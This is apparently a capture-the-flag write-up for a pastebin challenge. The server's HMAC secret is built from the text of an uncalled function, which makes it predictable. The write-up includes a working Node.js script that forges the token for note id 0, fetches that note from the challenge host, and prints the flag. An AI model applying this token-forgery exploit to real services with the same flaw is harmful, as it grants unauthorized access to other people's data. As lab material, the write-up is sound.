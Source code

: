 #### Challenge:

Knock knock? Who's there? Another pastebin!! [knock-knock.mc.ax](https://knock-knock.mc.ax/)

[index.js](./index.js ":ignore") [Dockerfile](./Dockerfile ":ignore")

---

#### Solution:

- inspecting the code reveals that `token` is just `sha256` generated from `id` with seed `secret`, so if we can get the `secret` we can craft any token, also the flag always has `id=0` as it is the first node to be added
- inspecting the `secret` initialization we can see that instead of invoking the function `crypto.randomUUID` its content is used as `secret` thus if we use the same version of `node` we can craft any token we need

```js
const crypto = require('crypto');
const https = require('https')

const token = crypto.createHmac('sha256', `secret-${crypto.randomUUID}`).update('0').digest('hex')

const req = https.request({
    hostname: 'knock-knock.mc.ax',
    port: 443,
    path: `/note?id=0&token=${token}`,
    method: 'GET',
}, res => res.on('data', d => {
    process.stdout.write(d)
}))

req.end()
```

---

<details><summary>FLAG:</summary>

```
dice{1_d00r_y0u_d00r_w3_a11_d00r_f0r_1_d00r}
```

</details>
<br/>
